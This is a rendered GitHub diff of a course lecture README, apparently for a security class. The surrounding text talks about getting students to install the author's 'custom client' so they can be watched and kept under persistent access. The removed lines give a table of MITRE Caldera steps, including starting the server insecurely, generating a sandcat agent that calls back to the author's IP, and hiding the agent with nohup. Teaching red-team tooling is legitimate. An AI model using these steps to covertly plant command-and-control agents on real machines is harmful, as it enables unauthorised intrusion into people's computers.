

Before and after one commit to delveccj/CSC180_Spring2024, a Markdown page: Lecture3/README.md, the part around the change printed below. Drawn GitHub-style; blank space fills up the shorter version.

```diff
--- a/Lecture3/README.md
+++ b/Lecture3/README.md
@@ -172,22 +205,4 @@ Now, let’s have **students install my custom client** so I can peek into their
 - Have students **run it "for testing purposes"**.
 - Maintain persistent access. 🚀
 
----
-
-### 🎯 **Final Summary**
-| **Step** | **Command / Action** |
-|----------|---------------------|
-| **Pull Caldera** | `docker pull mitre/caldera` |
-| **Start Server** | `docker run -d --name caldera -p 8888:8888 mitre/caldera` |
-| **Bash into Container** | `docker exec -it caldera /bin/bash` |
-| **Start Server in Container** | `python3 server.py --insecure` |
-| **Find Mac’s IP** | `ifconfig | grep "inet " | grep -v 127.0.0.1` |
-| **Generate Agent** | Use **Mac IP** as callback (`192.168.X.X:8888`) |
-| **Run Agent** | `chmod +x sandcat && ./sandcat` |
-| **Hide Agent** | `nohup ./sandcat &> /dev/null &` |
-| **Run Nosy Neighbor** | In **Caldera UI** under **Operations** |
-
----
-
-🔥 **Now You’re in Control!** 🔥
-Let me know if you need to tweak anything. This is gonna be fun! 😈🎉
+We know from last week that we can find the IP addresses of other machines in the classroom.  If you could so kindly install my client - I'll happily look around your machine!
```
Also changed, not shown: other parts of Lecture3/README.md (+47 -14 lines).
